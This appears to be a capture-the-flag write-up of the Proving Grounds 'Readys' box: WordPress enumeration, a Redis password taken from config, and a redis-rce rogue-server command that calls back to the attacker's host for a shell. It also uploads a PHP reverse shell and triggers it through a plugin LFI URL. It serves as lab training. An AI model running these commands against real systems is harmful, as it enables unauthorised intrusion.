# Readys -- Proving Grounds (write-up)

**Difficulty:** Intermediate
**Box:** Readys (Proving Grounds)
**Author:** dkrxhn
**Date:** 2025-04-24

---

## TL;DR

### WordPress site with Redis backend. Found Redis password in wp-config, used redis-rce for initial shell. Moved laterally to alice via PHP webshell through a WordPress plugin LFI.
---
## Target info

- Host: `192.168.145.166`
- Services discovered via nmap
---
## Enumeration



Ran wpscan to enumerate users and plugins:

```bash
wpscan --url http://192.168.145.166 -e u
```



```bash
wpscan --url http://192.168.145.166
```









---
## Initial foothold

Found Redis password in config: `Ready4Redis?`



Used redis-rce for initial shell (make sure to clone <https://github.com/n0b0dyCN/redis-rogue-server.git> in the same directory so `exp.so` works):

```bash
python3 redis-rce.py -r 192.168.145.166 -p 6379 -L 192.168.45.247 -P 80 -v -f ./redis-rogue-server/exp.so -a "Ready4Redis?"
```



---
## Lateral movement

Moved laterally to alice:



`/run/redis` is writable. Confirmed PHP is executable:



Uploaded pentestmonkey PHP reverse shell to `/run/redis/shell.php` and triggered it through the WordPress Site Editor plugin LFI:

```
http://192.168.145.166/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/run/redis/shell.php
```



---
## Privesc



---
## Lessons & takeaways

- WordPress config files often contain credentials for backend services like Redis
- Redis with known credentials can be leveraged for RCE via rogue server attacks
- WordPress plugin LFI vulnerabilities can be chained with writable directories for shell uploads
---
